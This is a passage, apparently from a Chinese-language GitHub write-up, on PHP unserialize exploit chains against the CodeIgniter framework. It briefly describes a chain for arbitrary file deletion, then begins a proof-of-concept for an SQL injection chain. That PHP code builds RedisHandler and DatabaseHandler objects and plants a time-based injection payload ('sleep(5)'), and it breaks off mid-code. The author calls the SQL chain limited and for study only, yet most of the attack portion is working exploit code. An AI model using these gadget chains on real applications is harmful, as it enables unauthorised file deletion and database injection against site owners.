 
![blockchain](https://github.com/pang0lin/auto-unsearalize/blob/main/imgs/CI_3.png "CodeIgniter unserialize chain")
4）运行时会报错，这很正常，因为前面有一步会调用一个quit方法，但是我们后面的类没有这个方法。但是不影响我们任意文件删除操作的执行。
![blockchain](https://github.com/pang0lin/auto-unsearalize/blob/main/imgs/CI_4.png "CodeIgniter unserialize chain")


## 0x03 SQL注入的反序列化利用链
这条利用链有一些问题，默认情况下CI的类里面不会自动加载配置文件，导致我们不能直接利用这条链来进行SQL注入，仅作学习使用。
先直接上POC。
```<?php

namespace CodeIgniter\Cache\Handlers;

class RedisHandler {
	public $redis;
	function __construct($redis){
		$this->redis = $redis;
	}
}


namespace CodeIgniter\Session\Handlers;
class DatabaseHandler {
	public $lock;
	public $platform;
	public $db;

	function __construct($db){
		$this->lock = "xxx') and sleep(5) -- a";
```